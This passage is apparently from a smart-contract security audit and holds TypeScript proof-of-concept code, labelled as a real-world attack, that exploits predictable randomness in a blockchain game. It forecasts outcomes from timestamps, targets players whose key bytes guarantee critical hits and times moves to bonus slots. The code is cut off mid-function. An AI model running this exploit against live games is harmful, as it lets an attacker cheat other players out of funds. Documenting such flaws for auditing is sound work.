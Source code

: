 ### Real-World Attack Implementation
```typescript
class RandomnessPredictor {
    async predictGameOutcomes(): Promise<void> {
        // 1. Monitor blockchain state to predict outcomes
        const currentSlot = await this.connection.getSlot();
        const currentTime = Math.floor(Date.now() / 1000);

        // 2. Calculate predicted outcomes for future blocks
        const predictions = [];
        for (let i = 0; i < 100; i++) {
            const futureTime = currentTime + (i * 0.4); // 400ms per slot average
            const predictedOutcome = Math.floor(futureTime) % 2;

            predictions.push({
                slot: currentSlot + i,
                timestamp: futureTime,
                winner: predictedOutcome,
                confidence: 1.0 // 100% confidence - deterministic
            });
        }

        // 3. Only participate in games with favorable outcomes
        for (const prediction of predictions) {
            if (prediction.winner === this.preferredTeam) {
                await this.scheduleGameParticipation(prediction.slot);
            }
        }
    }

    async manipulateCriticalHits(): Promise<void> {
        // 1. Pre-calculate critical hit probabilities
        const myPubkey = this.attackerKeypair.publicKey;
        const myByte = myPubkey.toBytes()[0];

        // 2. Find victim pubkeys that guarantee critical hits
        const guaranteedCrits = [];
        for (let victimByte = 0; victimByte < 256; victimByte++) {
            const combined = myByte ^ victimByte;
            if (combined % 10 === 0) {
                guaranteedCrits.push(victimByte);
            }
        }

        // 3. Target only players with guaranteed critical hit bytes
        const activePlayers = await this.getActivePlayers();
        for (const player of activePlayers) {
            const playerByte = player.toBytes()[0];
            if (guaranteedCrits.includes(playerByte)) {
                await this.targetPlayer(player); // Guaranteed critical hit
            }
        }
    }

    async optimizeBonusMultipliers(): Promise<void> {
        // 1. Monitor slot progression to predict multipliers
        this.connection.onSlotChange((slotInfo) => {
            const currentSlot = slotInfo.slot;
            const multiplier = (currentSlot % 5) + 1;

            // 2. Only make moves during maximum multiplier slots
            if (multiplier === 5) {
                this.executeHighValueOperations();
```